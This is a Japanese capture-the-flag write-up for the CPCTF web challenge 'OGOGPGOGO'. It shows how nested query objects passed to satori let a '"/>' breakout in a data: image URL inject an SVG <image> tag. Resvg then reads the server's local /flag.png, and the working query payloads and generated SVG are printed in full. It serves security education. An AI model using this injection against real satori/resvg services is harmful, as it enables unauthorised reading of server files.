



# OGOGPGOGO:Web:46.13pts
OGP(Open Graph Protocol)についてご存知でしょうか？現代のSEO対策においてOGPは極めて重要です。アメリカの某有名大学の研究では、OGPがある場合はエンゲージメントが４０％も上昇するという調査結果が出ているようです！  

click here↓  
[](https://ogogpgogo.web.cpctf.space/article/0)  

[配布ファイル](ogogpgogo.zip)  

**Hint1**  
/ogp エンドポイントにおける title にはオブジェクトも入ります  
**Hint2**  
satoriへの渡し方から、任意のHTMLが作れますね！どうやったらLFIできるんだろう... resvgが怪しいな...
**Hint3 (解法)**  
- クエリのパースにqsを利用しているので、titleに任意のオブジェクトを設定できます。つまり、satori に渡しているHTMLのASTをほぼ任意にいじれます。  
- satori によって生成されたsvgは、resvgによってpngになってから、返ります。resvgでLFIが可能です。  
    - 具体的には feImage で src に/flag.png を指定したら良いです。imageタグ以外なら、他の画像を含める方法でも良いです。（あるかは不明）  
    - ( image ではおそらく無理です)  
- 注意するべきこととして、qsのパーサーの都合上、一定以上の深さのオブジェクトは作れません。なので、payloadとなるsvgを一度 dataURL にして、imgタグに持たせるなどの工夫が必要です。（頑張れば回避できるかもしれません。  

# Solution
リンクとソースが渡される。  
Dockerfileを見ると以下の通りであった。  
```Dockerfile
FROM python:3.9-alpine as flag-creator
ARG FLAG=flag{this_is_a_fake_flag}
COPY GenShinGothic-Bold.ttf .
RUN pip install Pillow
COPY create_flag.py .
ENV FLAG=$FLAG
RUN python create_flag.py

FROM node:21-alpine
WORKDIR /app
COPY app.js package.json GenShinGothic-Bold.ttf ./
COPY ./views/ ./views/
RUN npm install
COPY --from=flag-creator flag.png /flag.png

EXPOSE 3000
ENV NODE_ENV=production
CMD ["node", "app.js"]
```
create_flag.pyは問題には関係ない(とコメントにある)スクリプトで、flagを画像に書き込むようだ。  
一連の操作によりフラグは画像として`/flag.png`に配置されているので、これを取得したい。  
メタ読みにはなるが、ユーザがrootであり共通インスタンスであるのでPrototype PollutionやSSTIではなさそうだ(破壊されるため)。  
LFIを狙えばよいとわかるが、フラグがpngであることにも理由がありそうである。  
app.jsは以下の通りであった。  
```js
'use strict'

var { default: satori } = require('satori');
var { Resvg } = require('@resvg/resvg-js');
var express = require('express');
var fs = require('fs');

express.urlencoded({ extended: true })

var app = express()
app.set('views', './views')
app.set('view engine', 'ejs')

app.use(express.static('public'));

const fontArrayBuffer = fs.readFileSync('./GenShinGothic-Bold.ttf').buffer;

async function renderOGPImage(title) {
    const svg = await satori(
        {
            type: 'div',
            props: {
                children: title,
                style: {
                    display: 'flex',
                    alignItems: 'center',
                    justifyContent: 'center',
                    width: '100%',
                    height: '100%',
                    padding: '4em',
                    color: 'black', backgroundColor: 'white',
                    fontSize: '3em',
                    background: "linear-gradient(lightblue, pink)"
                },
            },
        },
        {
            width: "1200px",
            height: "630px",
            fonts: [
                {
                    name: 'genshin-gothic-bold',
                    data: fontArrayBuffer,
                    weight: 400,
                    style: 'normal',
                },
            ],
        }
    );
    const renderer = new Resvg(svg, {
        fitTo: {
            mode: 'width',
            value: 1200,
        },
    })
    const buffer = await renderer.render();
    return buffer.asPng();
}

app.get('/ogp', async function (req, res) {
    try {
        const { title } = req.query;
        res.setHeader('Content-Type', 'image/png');
        res.send(await renderOGPImage(title));
    } catch (e) {
        console.error(e);
        res.status(500).send('Internal Server Error');
    }
});


const articleTitles = [
    'OGP（Open Graph Protocol）って何？知らないとヤバいですよ！',
    'NodeJSに使われていないか？使いこなすための現代NodeJS入門',
]


app.get('/article/:id', function (req, res) {
    try {
        const id = Number(req.params.id);
        if (id < 0 || id >= articleTitles.length) {
            res.status(404).send('Not Found');
            return;
        }

        res.render('article', {
            ogpimage: `https://${req.hostname}/ogp?title=${articleTitles[id]}`,
            title: articleTitles[id],
            content_path: `articles/${id}.ejs`,
        });
    } catch (e) {
        console.error(e);
        res.status(500).send('Internal Server Error');
    }
})

app.listen(3000);
console.log('Express started on port 3000');
```
`/ogp`と`/article/:id`の二つがある。  
`/article/:id`はejsをレンダリングしているだけで、idの検証が弱い(`Infinity`や`NaN`とできる)が`/flag.png`は指定できそうにない。  
`/ogp`ではクエリから`title`を受け取り、`satori`でSVGを作成した後に`resvg-js`でPNGに変換してOGP画像として返している。  
通常の利用では`children: title`は文字列が指定されるが、`express.urlencoded({ extended: true })`とあることからオブジェクトを指定し、入れ子になった要素を指定できそうだ。  
試しに以下のクエリを投げる。  
```
?title[type]=div&title[props][children]=omg&title[props][style][height]=500&title[props][style][width]=500&title[props][style][backgroundColor]=red
```
  
うまく要素を生成できた。  
`/flag.png`を参照した要素を持つSVGを作成し、PNGにする段階で画像を読み込むのだろうと予想がつく。  
テストとしてapp.jsの`svg`変数を以下のように書き換えて`/ogp`にアクセスする。  
```js
~~~
                    weight: 400,
                    style: 'normal',
                },
            ],
        }
    );
    const svg_satoki = '\
        <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 100 100">\
        <image href="/flag.png" width="100" height="100"/>\
        </svg>\
    ';
    const renderer = new Resvg(svg_satoki, {
        fitTo: {
            mode: 'width',
            value: 1200,
        },
    })
~~~
```
  
テスト用に配置した`/flag.png`が読み取れた。  
あとはSVGをクエリから生成すればよいので、以下を投げる。  
```
?title[type]=img&title[props][src]=/flag.png&title[props][height]=500&title[props][width]=500
```
すると`Error: Image source must be an absolute URL: /flag.png`と怒られる。  
[ここ](https://github.com/vercel/satori/blob/9bc47fd41937be1bc96db2c91420323d034bebef/src/handler/image.ts#L168)で`http`または`data:`で始まるかチェックされているようだ。  
`backgroundImage`でも外部のURLは指定可能であったが、`/flag.png`は読み込めない(fileスキームも不可)。  
ここで試しに、以下のようなクエリを投げる。  
```
?title[type]=img&title[props][src]=data:satoki">&title[props][height]=500&title[props][width]=500
```
するとエラーが変化した。  
```
Image data URI resolved without size:data:satoki">
Image data URI resolved without size:data:satoki">
Error: SVG data parsing failed cause expected 'image' tag, not 'svg' at 1:1007
    at new Resvg (/ogogpgogo/node_modules/@resvg/resvg-js/index.js:19:5)
    at renderOGPImage (/ogogpgogo/app.js:51:22)
    at async /ogogpgogo/app.js:65:18 {
  code: 'GenericFailure'
}
```
app.jsにデバッグ用の`console.log(svg);`を差し込み、出来上がったSVGを見ると以下の通りであった。  
```svg
<svg width="1200" height="630" viewBox="0 0 1200 630" xmlns="http://www.w3.org/2000/svg"><defs><pattern id="satori_pattern_id_0" x="0" y="0" width="1" height="1" patternUnits="objectBoundingBox"><linearGradient id="satori_biid_0" x1="0" y1="0" x2="0" y2="1"><stop offset="0%" stop-color="lightblue"/><stop offset="100%" stop-color="pink"/></linearGradient><rect x="0" y="0" width="1200" height="630" fill="url(#satori_biid_0)"/></pattern></defs><mask id="satori_om-id"><rect x="0" y="0" width="1200" height="630" fill="#fff"/></mask><rect x="0" y="0" width="1200" height="630" fill="white"/><rect x="0" y="0" width="1200" height="630" fill="url(#satori_pattern_id_0)"/><clipPath id="satori_cp-id-0"><rect x="350" y="65" width="500" height="500"/></clipPath><mask id="satori_om-id-0"><rect x="350" y="65" width="500" height="500" fill="#fff"/></mask><image x="350" y="65" width="500" height="500" href="data:satoki">" preserveAspectRatio="none" clip-path="url(#satori_cp-id-0)" mask="url(#satori_om-id-0)"/></svg>
```
SVGのタグが`">`により壊れているようだ。  
つまり、うまく差し込めば任意のタグを生成できることに気づく。  
以下のように新たなimageタグを差し込み、`href`を`/flag.png`とすればテスト時のように`/flag.png`が読み取れるはずだ。  
```
?title[type]=img&title[props][src]=data:satoki"/><image x="500" y="165" width="300" height="300" href="/flag.png&title[props][height]=500&title[props][width]=500
```
SVGは以下になる。  
```svg
<svg width="1200" height="630" viewBox="0 0 1200 630" xmlns="http://www.w3.org/2000/svg"><defs><pattern id="satori_pattern_id_0" x="0" y="0" width="1" height="1" patternUnits="objectBoundingBox"><linearGradient id="satori_biid_0" x1="0" y1="0" x2="0" y2="1"><stop offset="0%" stop-color="lightblue"/><stop offset="100%" stop-color="pink"/></linearGradient><rect x="0" y="0" width="1200" height="630" fill="url(#satori_biid_0)"/></pattern></defs><mask id="satori_om-id"><rect x="0" y="0" width="1200" height="630" fill="#fff"/></mask><rect x="0" y="0" width="1200" height="630" fill="white"/><rect x="0" y="0" width="1200" height="630" fill="url(#satori_pattern_id_0)"/><clipPath id="satori_cp-id-0"><rect x="350" y="65" width="500" height="500"/></clipPath><mask id="satori_om-id-0"><rect x="350" y="65" width="500" height="500" fill="#fff"/></mask><image x="350" y="65" width="500" height="500" href="data:satoki"/><image x="500" y="165" width="300" height="300" href="/flag.png" preserveAspectRatio="none" clip-path="url(#satori_cp-id-0)" mask="url(#satori_om-id-0)"/></svg>
```
imageタグがうまく生成できており、エラーも発生していない(`Image data URI resolved without size:`とは言われる)。  
本番環境に投げてやると以下のOGP画像が生成された。  
  
`/flag.png`が読み取れ、flagが得られた。  

## CPCTF{OGPGO_kore_kaibun}